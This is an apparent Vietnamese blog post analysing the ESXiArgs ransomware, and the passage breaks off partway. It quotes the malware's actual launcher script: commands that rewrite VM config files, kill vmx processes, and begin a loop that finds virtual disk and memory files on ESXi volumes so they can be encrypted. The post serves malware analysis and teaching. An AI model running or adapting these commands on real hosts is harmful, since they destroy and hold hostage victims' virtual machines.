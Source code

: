 ```yaml
---
title: "Phân tích mã độc ESXiArgs"
date: 2024-04-01T14:42:54+07:00
tags:
  - mã độc
  - dịch ngược
  - bảo mật
author: "Nguyễn Bình Nam"
description: "Học cách hoạt động của ransomware ESXiArgs bằng cách dịch ngược nó"
---
```


Năm vừa qua có xảy ra 1 vụ tấn công ransomware gọi là **ESXiArgs**. Vũ tấn công này đã làm mã hóa hàng trăm các máy ảo VMware khác nhau. Và mình quyết định là sẽ thử sức dịch ngược và phân tích mã độc này để xem nó hoạt động thế nào.

> Note: Mẫu mã độc này được lấy từ [forum bleepingcomputer](https://www.bleepingcomputer.com/forums/t/782193/esxi-ransomware-help-and-support-topic-esxiargs-args-extension/page-14#entry5470686)

# Script chạy

Mình sẽ bắt đầu bằng phân tích script chạy mã đọc trước:

```bash
## CHANGE CONFIG

for config_file in $(esxcli vm process list | grep "Config File" | awk '{print $3}'); do
  echo "FIND CONFIG: $config_file"
  sed -i -e 's/.vmdk/1.vmdk/g' -e 's/.vswp/1.vswp/g' "$config_file"
done
```

Đoạn code này sẽ tìm các file config và đổi các file `vmdk` sang file `vswp`. Ở đây cũng ko có gì quá thú vị về mặt phân tích.

Trong đoạn tiếp theo, script này sẽ dừng quá trình tên là `VMX`:

```bash
## STOP VMX
echo "KILL VMX"
kill -9 $(ps | grep vmx | awk '{print $2}')
```

Quá trình `VMX` là quá trình quản lý các thiết bị I/O (Input/Output). Nó cũng hỗ trợ việc giao tiếp giữa interface người dùng, quản lý snapshot của máy ảo và console remote

Đoạn tiếp theo của script là đoạn *mã hóa*:

```bash
## ENCRYPT

chmod +x $CLEAN_DIR/encrypt

for volume in $(IFS='\n' esxcli storage filesystem list | grep "/vmfs/volumes/" | awk -F'  ' '{print $2}'); do
  echo "START VOLUME: $volume"
  IFS=$'\n'
  for file_e in $( find "/vmfs/volumes/$volume/" -type f -name "*.vmdk" -o -name "*.vmx" -o -name "*.vmxf" -o -name "*.vmsd" -o -name "*.vmsn" -o -name "*.vswp" -o -name "*.vmss" -o -name "*.nvram" -o -name "*.vmem"); do
      if [[ -f "$file_e" ]]; then
        size_kb=$(du -k $file_e | awk '{print $1}')
        if [[ $size_kb -eq 0 ]]; then
          size_kb=1
        fi
        size_step=0
        if [[ $(($size_kb/1024)) -gt 128 ]]; then
```